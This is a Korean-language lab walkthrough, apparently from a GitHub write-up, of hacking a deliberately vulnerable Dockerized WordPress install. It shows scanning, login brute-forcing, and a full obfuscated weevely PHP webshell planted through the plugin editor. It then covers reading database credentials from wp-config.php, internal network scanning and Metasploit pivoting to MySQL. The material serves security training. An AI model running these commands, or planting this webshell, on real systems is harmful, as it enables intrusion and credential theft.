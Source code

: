 ```yaml
---
layout: single
title: "docker "
categories: Security
toc: true
author_profile: false
sidebar:
  nav: "docs"
---
```


![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/13f1f546-cc3c-4287-8bca-252a673443b8)

## Docker_WP_Hacking
도커 환경으로 구성한 워드프레스를 도커 취약점과 워드프레스 취약점을 이용해 해킹해보기.

## 사전준비
- 취약한 도커 이미지를 가상화 툴에 올려 준비해준다. : 192.168.146.129
- Kali Linux : 192.168.146.128
- WireShark
- Burpsuite (Decoder용도)

## 정보수집
- nmap을 통한 포트 스캔
```
sudo nmap -sV 192.168.146.129 -p-
sudo nmap -sV -sC 192.168.146.129 -p-
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/0a64950c-3f19-472f-8145-93b562db515d)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/11b8c2fe-2e10-4cc5-81fc-26bbdedfbe16)
- /wp-admin/ 경로 정보 획득
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c2041775-4ecb-4186-9f02-771b675487ba)
- 8000 포트, 22번 포트 확인
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/31d1c0dd-a66d-45b1-9984-02de893825bd)

- Nikto를 통한 정보 수집
```
sudo nikto -h http://192.168.146.129:8000/
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/3cf75a46-568c-4f8c-8a2c-03bb9e1f6862)

- dirb를 통한 정보 수집
```
sudo dirb http://192.168.146.129:8000/
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/170e296e-7298-4bb8-9ec1-25f0e5df1b61)

- wpscan을 통한 정보(워드프레스 플러그인 취약점) 수집
```
wpscan --url http://192.168.146.129:8000/ --enumerate p
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7979d634-5639-49df-8567-7f1fa200fac6)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/71539c00-8342-4b39-9c93-4b868c99b1f9)
- 메시지를 읽어보니 POST 메소드는 허용하는 것으로보아 무차별 대입공격을 허용하는 것 같다.

## brute-force 공격

-wpscan을 이용해 wordpress 계정 정보 얻기

```
wpscan --url http://192.168.146.129:8000/ --enumerate u
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/b61fb484-9230-47ca-a415-76c5c4c09b5e)

- wpscan의 무차별 대입 공격 기능 사용
- github SecList의 password 모음을 사용.

```
sudo git clone https://github.com/danielmiessler/SecLists.git
sudo wpscan --url http://192.168.146.129:8000/ --passwords ~/SecLists/Passwords/Common-Credential/10-million-password-list-top-10000.txt --usernames bob
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/80b80b6e-0292-4a3d-9b38-67e3c97675a0)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/210c83da-95ac-42e7-b7d8-c04bbb289f9c)

## 웹쉘 생성
- weevly를 사용하여 웹쉘 생성
```
sudo weevely generate hacker shell.php
cat shell.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/466ade39-1490-4a56-b3d7-ad1a12b9d5aa)

## 웹쉘 코드 업로드
- [wordpress admin site] -> [login(bob/Welcome1)] -> [plugins] -> [Editor]

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/1db97540-a895-4d8f-915c-5c291598a904)

```
?>
<?php
$B=str_replace('WQ','','cWQreatWQWQe_fWQuncWQtWQion');
$Z='$ku2="du26a6bc0d";$u2khu2="b10694a2du290e";$kf="u23a6964u28u2f3a03";$p=u2"g7e6u2hLIPrmHu2v7eIu2ju2";fun';
$l='u2val(@gzuncomu2pru2ess(@x(u2@base6u24_decode($m[1])u2,$k)))u2;$ou2=@ou2b_get_cou2ntentu2s();@obu2';
$A='u2"/$kh(.u2+)u2$kf/",@file_u2get_cu2ou2ntents(u2"php://inpu2uu2t"),u2$m)==1)u2 {@ob_u2su2tart();@e';
$h='2u2u2($j<$c&&$u2i<$l);$j++,u2$i++u2){u2$o.=$t{$iu2}^u2$k{$j}u2;}}returnu2 u2$o;}if (@preg_mau2tch(';
$d='_endu2u2_cleanu2();$r=u2@bu2ase64_encode(@u2x(@gu2zcompress($u2u2o),$k))u2;pu2rint("$p$kh$r$kf");}';
$G='cu2tion x($t,$k){$u2c=stru2len($ku2);$lu2u2=strlen($tu2)u2;$o="";for(u2$i=u20;$i<$l;){fu2or($j=0;u';
$k=str_replace('u2','',$Z.$G.$h.$A.$l.$d);
$C=$B('',$k);$C();
?>
<?php

```

- [Update File]


 
## 웹쉘 연결 후 내부 정보 수집

- 대부분 wordpress에서 플러그인 업로드를 하면 /wp-content/plugins/[펄러그인].php
```
http://192.168.146.129:8000/wp-content/plugins/hello.php hacker
```

- nmap 바이너리 파일을 weevely의 file_upload 모듈을 사용하여 침투한 시스템에 업로드.
- https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap 다운로드 하여 kali에 옮기기
- tmp 파일에 nmap 바이너리를 넣는 이유는 침투했을 때 권한이 www-data 이기 때문에 권한이 있는 임시 디렉토리인 tmp에 업로드 한 것이다.
```
file_upload /home/kali/Downloads/nmap /tmp/nmap
ls
chmod +x nmap
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/fa80b0c0-2ce3-47dd-a159-5b42f6929c3e)

- 내부 프라이빗 ip 확인후 내부 인터넷 망 스캔

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/67d1f594-b753-472f-8d7a-26275ef88c6e)

```
ip addr
./nmap 172.18.0.0/24
```

- nmap 결과로 보아 현재위치는 웹서비스를 제공하는 서버이다.
- 172.18.0.2 는 Database mysql 서버이다.
- 172.18.0.4 는 ssh로 내부로 접속을 하기 위한 bastion 서버로 추측 할 수있으며, 8022의 목적을 알 수 없는 포트가 열려있다.
- 일반적으로 8022 포트는 표준 SSH(Secure Shell) 포트인 22의 대안으로 사용될 수 있다.

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/c59d3ba2-7fae-48c9-b422-aea6ca8decfb)

- db 서버가 있는 것을 확인했으니 db서버 정보를 획득 해야한다.
- wordpress 에서는 wp-config.php에 db 계정 정보가 담겨있다.

```
cd /var/www/html
ls
cat wp-config.php
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/7d441bb0-b738-4597-b4cd-871aa6b8ae55)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2738974d-576d-45e2-9b2b-695a5801cc91)

- 브라우저로 접속했을 때 docker환경인 것을 힌트로 얻을 수 있었지만 확실하게 한번더 확인한다.
- docker 환경에 init 프로세스는 대부분 docker 이므로
- /proc/1/cgroup 내용을 확인하여 docker 환경임을 확신한다.

```
cat /proc/1/cgroup
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/8657076e-2fd2-42c7-b492-805a7873818c)



## 8022 포트 공격
- Kali에서 다른 터미널을 연다.

```
sudo msfconsole
search wp_admin
use exploit/unix/webapp/wp_admin_shell_upload
show options
set RHOSTS 192.168.146.129
set RPORT 8000
set USERNAME bob
set PASSWORD Welcome1
exploit
```
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12a8d10e-1035-4971-b134-92d1c9f11c37)

- 내부에 침투하여 nmap으로 내부망 서버 구성을 확인하였다.
- 미터프리터 즉 웹서비스안에 msfconsole로 침투 성공도 하였다.
- 미터프리터의 기능인 포트포워딩 기능을 이용하여 해커의 8022 포트를 연다
- 해커는 자신의 브라우저에 localhost:8022로 접속을하면 침투한 내부망의 bastion 서버인 172.18.0.4:8022로 포워딩 해준다.

```
portfwd add -l 8022 -p 8022 -r 172.18.0.4
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/2c786847-330a-4c68-8ad7-42552c70097e)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/02d167a5-9741-47c3-87e6-9fd59ec6b476)

- 분명 172.18.0.4:8022로 포트포워딩을 했는데 172.18.0.2로 접속되었다.
- 즉 172.18.0.4:8022는 내부 db서버인 172.18.0.2로 접속하는 포트였던 것이다.
- 획득한 db정보를 통해 접속해보자.

```
mysql -u wordpress -p
Enter password : WordPressISBest
```

> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/d3f8d1d3-f2fc-4085-977b-e39f98be548f)
> ![image](https://github.com/hanmin0512/Docker_WP_Hacking/assets/37041208/12eb1c7b-d758-4ed7-af81-a858a0defd48)

